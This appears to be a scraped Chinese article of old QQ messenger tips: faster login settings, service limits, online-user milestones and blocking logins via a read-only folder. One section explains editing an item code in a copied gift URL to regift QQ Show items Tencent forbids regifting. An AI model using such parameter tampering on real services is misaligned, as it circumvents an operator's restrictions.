

## QQ远程协助时如何在对方电脑中输入字符

当QQ好友遇到问题无法解决时，QQ“远程协助”功能为你提供了一个协助对方解决问题的途径。但是，在通过远程协助控制对方的电脑时，是不是无法在对方电脑输入字符和文字呢？

## 飞速登录QQ

QQ的登录速度和机器配置、网速都有关系，这些不是我们能立即改变的。但是可以去掉登录中一些不必要的步骤，以减少登录时间。

- 1. **去除QQ宠物启动**：打开QQ，选择“设置/系统设置/基本设置”，在综合设置里，把“宠物随QQ自动启动”前面的钩去掉，让QQ宠物在QQ登录时不随QQ启动（图1）。
- 2. **去除Qzone更新提示**：在“系统设置/登录和综合设置项”里，把“登录接收Qzone更新提示”前面的钩去掉（图2）。
- 3. **去除自动更新**：选择“系统设置/自动更新设置项”，选择“不启动自动更新”（图3）。
- 4. **禁用代理服务器**：选择“系统设置/代理设置/使用自定义的网络设置/不使用代理服务器”（图4）。

现在没用的步骤都去掉了，是不是感觉比以前快多了。









## 把烦闷的QQ秀再免费送给其他好友

自己买的QQ秀可以随便送人，别人送的QQ秀是被腾讯禁止送人的。不过我们有方法突破这个限制。

在腾讯的网站上登录QQ秀（http://qqshow.qq.com/），在自己买的（也可以是免费买的）QQ秀的“赠送”按钮上右击鼠标，选择“复制快捷方式”，然后把鼠标放在你获赠的QQ秀（也就是那个你想送人却送不了的QQ秀）“推荐”按钮上（不用点击）。看到浏览器状态栏的网址了吗？那最后面的4位数字就是你这个QQ秀的代码。替换掉刚才复制的“赠送”快捷方式中的QQ秀代码，在浏览器中访问修改好的快捷方式。赠送QQ秀的窗口出现了，在里面输入要赠送的人，选择赠送，就可以把获赠的QQ秀再送给好友了。

### 带你走进QQ的数字世界

### 聊天

- QQ付费服务关闭延长期为3天
- 每个QQ添加好友数+群组数=500
- 每个QQ每天可以用2次“忘记密码”
- QQ密码16个字母（或数字）或8个汉字
- 普通号码无登录收回期限是3个月
- 每个QQ号码最多可以有5个音乐盒
- 每个QQ号码最多可以建立15个分组
- QQ昵称最多6个汉字
- QQ签名最多25个汉字
- QQ聊天单次发送图片为1MB
- QQ聊天消息最大字数为3420字（起初是400字）
- QQ历史上相邻两个简体中文版发布的最小间距是19天
- [QQ2004II beta3（2004.12.9）和QQ2004II正式版（2004.12.28）]
- 显示在QQ资料提示框里的内容共有13项
- [VIP 手机绑定 旋铃 QQ堂 相册 家园 QQ电话 交友 三钻 移动QQ 短信超人]
- 同时显示在QQ资料提示框里的有7项

### 群组

- 每个QQ可以建立一个校友录班级
- 普通群可以设立两个管理员
- 高级群可以设立四个管理员
- 会员可以建立四个群组
- 16级QQ可以建立一个群组
- 普通群上限人数是100个
- 高级群上限人数是200个
- 普通群共享空间是16MB
- 高级群共享空间是256MB
- 普通群共享空间单次上传4MB
- 高级群共享空间单次上传无限制
- 普通群相册空间是10MB
- 高级群相册空间是100MB
- 普通群论坛最大帖子数是500
- 普通群单帖最大字数2500字
- 高级群单帖最大字数2500字
- 高级群论坛最大帖子数是20000

### 硬盘

- 网络硬盘增容单次最少5MB
- 网络硬盘降级期限为30天
- 网络硬盘共有5种规格
- 网络硬盘的上限是1787MB
- 普通用户网络硬盘容量16MB
- 普通用户网络硬盘限速30KB/S
- 普通用户网络硬盘邮件转发最大4MB
- 普通用户网络硬盘单次上传最大4MB
- 普通用户网络硬盘自定义表情上传最大4MB
- QQ行用户网络硬盘容量32MB
- QQ行用户网络硬盘限速30KB/S
- QQ行用户网络硬盘邮件转发最大10MB
- QQ行用户网络硬盘单次上传最大8MB
- QQ行用户网络硬盘自定义表情上传最大4MB
- VIP用户网络硬盘容量128MB
- VIP用户网络硬盘单次上传最大128MB
- VIP用户网络硬盘邮件转发最大20MB
- VIP用户网络硬盘单次在线播放歌曲最大10首
- VIP用户网络硬盘单次播放文件最大10MB
- 豪华型用户网络硬盘容量256MB
- 豪华型用户网络硬盘单次上传最大256MB
- 豪华型用户网络硬盘邮件转发最大20MB
- 豪华型用户网络硬盘单次播放文件最大10MB
- 别墅型用户网络硬盘容量512MB
- 别墅型用户网络硬盘单次上传最大512MB
- 别墅型用户网络硬盘邮件转发最大20MB
- 别墅型用户网络硬盘单次播放文件最大10MB

### 邮箱

- 信箱域名连续操作间隔不得小于30天
- 信箱别名用户名3-20位
- 普通用户信箱容量是5MB
- 普通用户信箱单封最大附件4MB
- 普通用户信箱单次抄送上限为20封
- QQ行用户信箱容量是20MB
- QQ行用户信箱单封最大附件10MB
- QQ行用户信箱单次抄送上限为50封
- VIP用户信箱容量是100MB
- VIP用户信箱单封最大附件20MB
- VIP用户信箱单次抄送上限为50封
- 大肚邮用户信箱容量1GB
- 大肚邮用户信箱最大附件30MB
- 移动QQ信箱用户信箱容量50MB
- 移动QQ信箱用户信箱最大附件10MB

### 帐户

- 收费QQ续费限期为30天
- 每个QQ每天接受转账上限为200QB
- 每个ADSL每月可以给每个QQ号码充值200QB
- 单次充值下限是1QB
- 单次消费下限是0.1QB（家园）
- 游戏币：QB=15000:1
- QB：游戏币=1:10000
- 移动：每个手机只能为1个QQ VIP付费
- 每个手机只能为1个QQ行付费
- 每个手机转账每天上限为100QB
- 每个手机只能绑定1个QQ号码
- 每个手机每天最多申请普通QQ号码20个
- 每个手机连续申请号码间隔为5MIN
- 每条手机短信字数上限为130字符
- “QQ千里眼”“监视”好友上限数为20人
- “短信超人”每天短信条数上限为150条
- “移动QQ”每天短信条数上限为150条
- 移动QQ有四个短信站（移动、电信、联通、网通）（1700，1700，9777，17000）

### 其他

- QQ秀物品过期时长为半年
- QQ堂道具过期物品时长为半年
- 腾讯QQ最高在线人数发展历程：
  - 2000年05月11日最高同时在线人数突破10万；
  - 2001年02月10日最高同时在线人数突破100万；
  - 2002年03月10日最高同时在线人数突破200万；
  - 2003年02月16日最高同时在线人数突破300万；
  - 2003年09月12日最高同时在线人数突破400万；
  - 2004年02月14日最高同时在线人数突破500万；
  - 2004年03月13日最高同时在线人数突破600万；
  - 2004年09月18日最高同时在线人数突破700万；
  - 2004年10月30日最高同时在线人数突破800万；
  - 2004年12月4日最高同时在线人数突破900万；
  - 2005年02月16日最高同时在线人数突破1000万！



## 更改文件夹属性禁止QQ登录

有时我们的电脑不是一个人使用，如果你不想让别人在你的电脑上登录QQ，可以通过更改文件夹属性禁止QQ登录，不必使用什么防火墙禁止端口。找到你的QQ安装文件夹，查看它的属性（图24）。选择“只读”属性，在弹出窗口中选中“将更改应用于该文件夹、子文件夹和文件”（图25）。再登录QQ就变成如图26的样子，以前登录的QQ号也消失了。如果输入账号和密码登录，就会弹出如图27的对话框，点击“否”，QQ显示正在登录，但不会登录成功，因为文件不能写入。









## 加快QQ的传送文件速度

QQ作为我们常用的通讯工具，它有着丰富的功能。除了经常用来聊天外，互相传送文件也是常用的功能。但有时超低的传送速度又让人无法忍受，尽管是在局域网中也无法达到应有的速度。有的情况确实是我们的网络问题，但大多数情况下都可以通过更改QQ的设置来提高速度。



